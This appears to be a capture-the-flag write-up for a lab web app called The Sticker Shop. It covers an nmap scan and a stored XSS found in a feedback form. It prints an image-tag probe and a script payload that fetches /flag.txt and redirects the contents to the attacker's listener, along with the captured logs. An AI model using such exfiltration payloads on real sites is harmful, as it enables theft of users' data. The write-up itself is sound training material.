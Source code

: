 ```yaml
---
title: "The Sticker Shop"
description: "Sticker shop web app with identified Cross-Site Scripting (XSS) vulnerability "
date: "2024-12-04"
image: "/public/sticker.png"
tags:
  - XSS
---
```


## Overview

During this Capture the Flag (CTF) challenge, the goal was to exploit vulnerabilities in **The Sticker Shop** web application. The primary vulnerability identified was **Cross-Site Scripting (XSS)**, which allowed the injection of malicious scripts, ultimately leading to the extraction of the flag located at `/flag.txt`.

---

## Network Scan

### Nmap Scan

A network scan was performed on the target machine at IP `10.10.181.208` to gather information about open ports and services. The following results were obtained:

```txt
$ nmap -A 10.10.181.208

Nmap Scan Results for 10.10.181.208

Host is up (0.24s latency).

PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
8080/tcp open http-proxy Werkzeug/3.0.1 Python/3.8.10

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap done at Sat Nov 30 23:55:20 2024 -- 1 IP address (1 host up) scanned in 143.61 seconds

```

The scan revealed two open ports:

- **Port 22**: SSH service
- **Port 8080**: HTTP proxy service running on **Werkzeug/3.0.1** and **Python/3.8.10**

## Website Interaction

Upon visiting `http://10.10.181.208:8080`, the homepage displayed two stickers and their respective prices.

![Homepage](/public/home.png)

Efforts to access the **flag** at `/flag.txt` returned a **401 Unauthorized** status, indicating that the flag was secured and could not be accessed directly.

![Unauthorized](/public/unauth.png)

---

## Feedback Form and XSS Testing

![feedback](/public/feedback.png)

The application features a feedback form that allows users to submit comments. To test for **Cross-Site Scripting (XSS)** vulnerabilities, a simple payload was injected:

```html
<img src="http://10.8.84.12:8081/test" />
```

This payload attempts to load an image from an external server, allowing for the detection of improper input handling.

A basic HTTP server was set up at http://10.8.84.12:8081 to monitor incoming requests:

```bash
python3 -m http.server 8081

10.10.181.208 - - [04/Dec/2024 13:52:30] "GET / HTTP/1.1" 200 -
10.10.181.208 - - [04/Dec/2024 13:52:41] "GET / HTTP/1.1" 200 -
```

This confirmed that the site was vulnerable to XSS, as the payload was executed and the request was made to the server.

## Exploiting XSS to Steal Flag

![xss](/public/query.png)

The input field was vulnerable to XSS, allowing the injection of a JavaScript payload to fetch the contents of the `/flag.txt` file. Since only GET requests were allowed, the flag could not be directly posted but could be fetched and sent via a redirect.

The following JavaScript payload was crafted:

```js
<script>
  fetch('/flag.txt').then(response=>response.text()) .then(data=>{" "}
  {
    (window.location.href =
      "http://10.8.84.12:8081/?flag" + encodeURIComponent(data))
  }
  )
</script>
```

This script makes a GET request to /flag.txt, retrieves the flag, and redirects to an external server (http://10.8.84.12:8081), appending the flag as a URL parameter.

The payload was submitted through the feedback form, and the following request was captured on the server:

```python
10.10.181.208 - - [04/Dec/2024 14:05:41] "GET /?flag=THM%7B83789a69074f6364a38879cfcabe8b62305ee6%7D HTTP/1.1" 200 -
```

